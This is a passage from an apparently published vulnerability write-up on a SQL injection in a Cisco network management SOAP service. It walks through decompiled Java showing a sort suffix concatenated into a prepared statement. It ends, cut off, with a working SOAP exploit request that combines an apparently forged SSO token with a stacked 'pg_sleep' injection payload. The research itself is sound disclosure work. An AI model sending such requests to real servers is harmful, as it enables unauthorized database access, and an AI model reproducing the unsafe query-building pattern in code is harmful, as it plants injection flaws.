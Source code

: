 
For exploitation, I decided to set the `sortField` to the `vcluster` index on line *[3612]*. This will ensure we don't trigger an `java.lang.IndexOutOfBoundsException` exception on the `this._Name2SqlHash` hashmap.

Continuing along inside of the `HostEnclHandler.getVmHostData` method, we can be sure that we can influence the `sortSqlSuffix` variable.

```java
/* 1068 */     con = null;
/* 1069 */     stmt = null;
/* 1070 */     rs = null;
/* 1071 */     String sql = null;
/*      */     
/*      */     try {
/* 1074 */       con = ConnectionManager.getConnection();
/* 1075 */       processVm(con, _Host2vmHash);
/* 1076 */       processUsageCount(con, _vmUsageMap);
/*      */       
/* 1078 */       sql = SQLLoader.getSqlStmt("HostEnclHandler.VM_HOST_DATA_LIST_STMT");
/* 1079 */       stmt = PersistentHelper.getHelper().getPreparedStmt(con, sql + sortSqlSuffix, 1004, 1007);
/*      */ 
/*      */ 
/*      */ 
/*      */ 
/*      */       
/* 1085 */       rs = SQLLoader.execute(stmt);
```

On line *[1079]* we can see a prepared sql statement is being created in an unsafe way using our injected `sortSqlSuffix` variable. Then on line *[1085]* the sql injection is actually triggered!

*Side note: This bug was a result of a design flaw and patterned numerous times where the developer(s) made the assumption that since the queries where parameterized, they were safe from sql injection. Further searches of this pattern resulted in over 100 separate sql injection vulnerabilities alone.*

The next step was to discover the exact SOAP parameters needed to trigger this code path. The `WebContext` annotation gives us a url pattern that will reveal the [wsdl](https://en.wikipedia.org/wiki/Web_Services_Description_Language) path to be `https://<target>/DbInventoryWSService/DbInventoryWS?wsdl`

For reference, here is the `WebContext` annotation.

```java
/*      */ @WebContext(contextRoot = "/DbInventoryWSService", urlPattern = "/DbInventoryWS")
```

![Revealing the getVmHostData method service descriptor](/assets/images/busting-ciscos-beans/wsdl.png "Revealing the getVmHostData method service descriptor") 

Combining the first vulnerability we could send the following request that populates the properties in the `dbFilter` to the `/DbInventoryWSService/DbInventoryWS` SOAP endpoint and trigger the SQL Injection.

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ep="http://ep.san.jaxws.dcbu.cisco.com/">
    <SOAP-ENV:Header xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
        <m:ssoToken xmlns:m="http://ep.jaxws.dcbu.cisco.com/">1337.9999999999999.PxU+ahyOPP9L22+K4u1+6g==.hax</m:ssoToken>
    </SOAP-ENV:Header>
    <soapenv:Body>
        <ep:getVmHostData>
            <arg0>
                <sortField>vcluster</sortField>
                <sortType>;select pg_sleep(10);--</sortType>
            </arg0>
```